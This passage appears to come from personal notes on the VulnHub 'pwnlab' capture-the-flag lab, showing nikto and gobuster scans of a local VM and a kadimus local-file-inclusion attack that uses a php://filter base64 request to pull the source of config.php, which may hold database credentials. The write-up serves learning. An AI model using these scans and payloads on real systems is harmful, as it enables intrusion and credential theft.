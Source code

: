 ```bash
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7915 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2020-01-07 17:37:41 (GMT1) (68 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

###### gobuster

```bash
root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab# ~/go/bin/gobuster dir -u http://192.168.56.103/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,sql -t 40 -e -o scans/gobuster_dir_med-php-txt-html-sql.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.56.103/
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,sql,php,txt
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/01/07 17:49:15 Starting gobuster
===============================================================
http://192.168.56.103/index.php (Status: 200)
http://192.168.56.103/images (Status: 301)
http://192.168.56.103/upload (Status: 301)
http://192.168.56.103/upload.php (Status: 200)
http://192.168.56.103/login.php (Status: 200)
http://192.168.56.103/config.php (Status: 200)
http://192.168.56.103/server-status (Status: 403)
===============================================================
2020/01/07 17:51:26 Finished
===============================================================
```

###### kadimus

```bash
root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# kadimus -u http://192.168.56.103/?page=login --parameter page --get-source --filename "config" -O config.php --proxy http://127.0.0.1:8080

(GET /?page=php://filter/convert.base64-encode/resource=config HTTP/1.1)


 _  __         _ _
| |/ /__ _  __| (_)_ __ ___  _   _ ___
| ' // _` |/ _` | | '_ ` _ \| | | / __|
| . \ (_| | (_| | | | | | | | |_| \__ \
|_|\_\__,_|\__,_|_|_| |_| |_|\__,_|___/

  v1.1 - LFI Scan & Exploit Tool (@hc0d3r - P0cL4bs Team)

[19:37:04] [INFO] trying get source code of file: config
[19:37:04] [INFO] valid base64 returned:
[19:37:04] [INFO] check the output file

```